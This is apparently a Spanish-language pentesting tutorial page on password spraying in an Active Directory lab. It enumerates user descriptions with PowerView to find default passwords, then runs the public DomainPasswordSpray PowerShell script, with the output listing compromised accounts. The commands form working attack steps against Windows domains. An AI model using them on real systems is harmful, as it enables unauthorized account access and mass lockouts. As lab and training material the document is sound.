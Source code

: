 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password Spraying

Esta tecnica consiste en ser capaces de coger una contraseña y propagarla por todos los usuarios del dominio para saber que usuarios coinciden y tienen esa contraseña asociada, pero es una tecnica muy intrusiva y en entornos reales se hay llegado a utilizar por equipos de `Red Team` y han llegado a bloquear todas las cuentas de usuarios ya que dependiendo de como este configurado tendra un numero limitado de intentos.

Primero para poder identificar alguna contraseña podremos ver las descripciones que en algunos casos puede ser muy importante para poder ver si alguno se dejo la ocntraseña puesta en la descripcion y realizar la tecnica.

```powershell
cd .\Desktop
. .\new_powerview.ps1
Get-NetUser | select name,description
```

Info:

```
name              description
----              -----------
Administrator     Built-in account for administering the computer/domain
Guest             Built-in account for guest access to the computer/domain
krbtgt            Key Distribution Center Service Account
empleado1
empleado2
Maurine Bibby
Henrie Kaleena
Ali Alix
Saree Dayna
Lonnie Betti      Replication Account
Abbi Jocelyn
Arlie Gunilla
Adorne Bridgette  Shared User
Roanna Bidget
Aubry Carolan
Ermina Hatti
Angelika Shelly   Replication Account
Barby Min
Jannel Emalia
Audre Maible
Kizzie Kacy
Andreana Shea
Emeline Shirline
Brynne Kenon
Myrtia Agatha
Ernaline Lowell
Gerri Kathi
Goldarina Nicki
Avril Cheri
Bobette Glenn
Joanie Karine
Gwenneth Gilly
Saidee Kaye
Cynthie Rori      Replication Account
Cristabel Melony
Mela Jacquetta
Jennifer Gerry    Shared User
Ginevra Michel
Arabella Norry
Colly Katey
Marsha Jordan
Britni Henrieta
Alejandrina Faye
Philis Bertha
Harriett Daron
Ardine Farra
Robena Prudence
Pearl Judye
Riva Nellie
Jobina Aleta
Fayina Hyacinth
Loretta Jerrine
Peta Adelind
Ophelie Odele
Cybil Alica
Shay Siana
Halette Martelle
Audrey Hedwiga
Betsey Stephine
Demetris Daveta
Lexy Rosaline
Ilyssa Nevsa
Denice Freda
Georgia Marie-Ann
Benny Alikee
Sandye Leodora
Germain Gavrielle Shared User
Milicent Gracie
Meg Carolee
Linn Evaleen
Mirna Annice
Diana Sharai
Deeann Amalita
Kettie Shanta
Estelle Kelli
Guenna Jessi      Shared User
Allissa Lezlie
Crissie Deena
Olga Rhoda
Anna Costanza
Corie Josie       New User ,DefaultPassword (password)
Evy Britta
Jaime Luise
Gennifer Cleo
Colly Elfie
Gill Kellie
Carmon Leoine
Farrand Inna
Donnie Lari
Millie Hanny
Sarita Alisha
Rycca Jacinta
Levin Bab
Celle Sherye      New User ,DefaultPassword (password)
Chloris Ilysa
Kelley Happy
Darsey Jasmine
Ebba Nicoline
Geneva Lorrin
Joellyn Pippa
Renelle Jacynth
Sarah Rhoda
Annice Mable      My password is Passw0rd5
Aimil Evangelia   Shared User
```

Por lo que vemos, estamos viendo a 2 usuarios bastante interesantes que dicen tener la contraseña por defecto y esta misma esta entre parentesis (`password`).

Por lo que vamos a utilizar un script publico de un repositorio de `GitHub` para realizar esta tecnica que estara en el siguiente link:

URL = [DomainPasswordSpray GitHub](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)

Copiaremos el script y lo pegaremos en un archivo del equipo de `empleado1` llamado `passwordspray.ps1`.

Una vez realizado todo eso en el `PowerShell` pondremos lo siguiente.

```powershell
. .\passwordspray.ps1
```

Con esto ya habremos cargado el script.

> NOTA

En tal caso de que diera un error puede ser por la linea `261` la cual habra que comentar de la siguiente forma:

```powershell
# Write-Host "${Message}: Waiting for $($Seconds/60) minutes. $($Seconds - $Count)"
```

Y lo volveremos a ejecutar.

Una vez cargado el script, tendremos que hacer lo siguiente para realizar la tecnica, pero antes tendremos que generar el archivo de usuarios para poder utilizarla para la tecnica de la siguiente forma.

```powershell
Get-NetUser | Select-Object -ExpandProperty name | Out-File C:\Users\empleado1\Desktop\users.txt
```

Esto nos habara generado un archivo en el escritorio algo asi:

<figure><img src="../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Y ahora vamos a probar como vimos anteriormente si alguno mas de esos 2 usuarios tiene la contraseña por defecto llamada `password`:

```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password "password"
```

Info:

```
[*] Using .\users.txt as userlist to spray with
[*] Warning: Users will not be checked for lockout threshold.
[*] The domain password policy observation window is set to 1 minutes.
[*] Setting a 1 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 104 accounts?
[Y] Yes  [N] No  [?] Ayuda (el valor predeterminado es "Y"):
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password password against 104 users. Current time is 8:11
[*] SUCCESS! User:ernaline.lowell Password:password
[*] SUCCESS! User:corie.josie Password:password
[*] SUCCESS! User:celle.sherye Password:password
[*] Password spraying is complete
```

Y vemos que nos esta sacando las contraseñas de dichos usuarios, pero si lo probamos muchas veces puede ser que bloqueemos las cuentas de usuarios ya que los que no estan coincidiendo tengan un limite de intentos y se bloqueen por lo que hay que tener mucho cuidado con esto.

